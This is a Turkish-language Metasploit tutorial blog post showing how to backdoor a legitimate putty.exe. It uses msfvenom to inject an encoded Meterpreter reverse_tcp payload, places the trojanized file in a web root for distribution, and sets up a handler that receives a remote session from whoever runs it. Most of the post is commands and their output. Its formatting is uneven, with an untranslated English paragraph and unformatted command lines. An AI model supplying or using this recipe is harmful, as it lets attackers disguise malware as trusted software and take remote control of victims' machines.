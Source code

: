 ```yaml
---
draft: false

title:  'MSF EXE Arka Kapısı'
date: '2017-06-16T14:00:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.' 
 
url:  /tr/msf-exe-arka-kapisi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Bir EXE Dosyası İle Arka Kapı Oluşturma



Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.



Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.



## Exe Dosyası İndirme



Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.


```bash
root@kali:/var/www# wget <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>

Resolving the.earth.li **(**the.earth.li**)**... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li **(**the.earth.li**)**|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a> **[**following]
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a>
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 **(**512K**)** **[**application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================&gt;] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved **[**524288/524288]

root@kali:/var/www#
```



Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.



Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.



root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe



Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#


```bash

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```sh
msf &gt; use exploit/multi/handler 

msf exploit(handler) &gt; set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD =&gt; windows/meterpreter/reverse_tcp

msf exploit(handler) &gt; set LHOST 192.168.1.101
LHOST =&gt; 192.168.1.101

msf exploit(handler) &gt; set LPORT 443
LPORT =&gt; 443

msf exploit(handler) &gt; exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```



Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.


```bash
**[*********]** Sending stage **(**749056 bytes**)** to 192.168.1.201
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:443 -&gt; 192.168.1.201:1189**)** at Sat Feb 05 08:54:25 -0700 2011

meterpreter **&gt;** getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter **&gt;**
```



Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
